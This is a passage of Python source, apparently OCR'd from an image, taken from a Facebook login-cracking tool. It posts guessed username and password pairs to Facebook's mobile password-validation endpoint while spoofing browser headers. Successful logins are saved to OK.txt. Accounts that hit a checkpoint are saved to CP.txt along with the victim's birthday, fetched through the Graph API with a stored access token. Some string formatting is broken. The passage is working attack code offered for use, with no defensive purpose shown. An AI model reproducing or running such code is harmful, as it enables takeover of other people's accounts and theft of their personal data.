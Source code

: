    headers_ = {"Host":"m.facebook.com","upgrade-insecure-requests":"1","user-agent":ua_xiaomi,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","dnt":"1","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://m.facebook.com/","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"}
   p = ses.get('https://m.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F', headers=headers_).text
   dataa = {"lsd":re.search('name="lsd" value="(.*?)"', str(p)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p)).group(1),"uid":user,"flow":"login_no_pin","pass":pw,"next":"https://developers.facebook.com/tools/debug/accesstoken/"}
   _headers = {"Host":"m.facebook.com","cache-control":"max-age=0","upgrade-insecure-requests":"1","origin":"https://m.facebook.com","content-type":"application/x-www-form-urlencoded","user-agent":"Mozilla/5.0 (Linux; Android 4.4.4; en-au; SAMSUNG SM-N915G Build/KTU84P) AppleWebKit/537.36 (KTHML, like Gecko) Version/2.0 Chrome/34.0.1847.76 Mobile Safari/537.36","accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://m.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"}
   po = ses.post("https://m.facebook.com/login/device-based/validate-password/?shbl=0", data = dataa, headers=_headers, allow_redirects = False)
   if 'c_user' in ses.cookies.get_dict():
    AYAN_ARAIN('\r\033[1;92m[Successful-AS] %s | %s      '%(user,pw))
    wrt = '%s - %s - %s' % (user,pw)
    ok.append(wrt)
    open('OK.txt','a').write('%s\n' % wrt)
    break
    continue
   elif 'checkpoint' in ses.cookies.get_dict():
    try:
     token = AYAN('token.txt').read()
     cp_ttl = Prof_Arain('https://graph.facebook.com/%s?access_token=%s'%(user,token)).json()['birthday']
     month, day, year = cp_ttl.split('/')
     month = bulan_ttl[month]
     AYAN_ARAIN('\r\033[1;91m[Checkpoint-AS] %s | %s  %s %s %s%s      ' % (user,pw,day,month,year,tahun(user)))
     wrt = '%s - %s - %s %s %s'%(user,pw,day,month,year)
     cp.append(wrt)
     open('CP.txt','a').write('%s\n' % wrt)
     break
    except (KeyError, IOError):
     month = ''
     day   = ''
     year  = ''
    except:
     pass
    AYAN_ARAIN('\r\033[1;91m[Checkpoint-AS] %s | %s%s      ' % (user,pw,tahun(user)))
    wrt = '%s - %s%s'%(user,pw,tahun(user))
    cp.append(wrt)
    open('CP.txt','a').write('%s\n' % wrt)
    break
    continue
  loop += 1
 def __pler__(self):
  yan = input('\n[•] Choose : ')
  if yan == '':
   AYAN_ARAIN('\Choose Error ')
   exit()
  elif yan in ('1', '01'):
   AYAN_ARAIN('\n[•] Result OK saved to OK.txt')
   AYAN_ARAIN('[•] Result CP saved to CP.txt')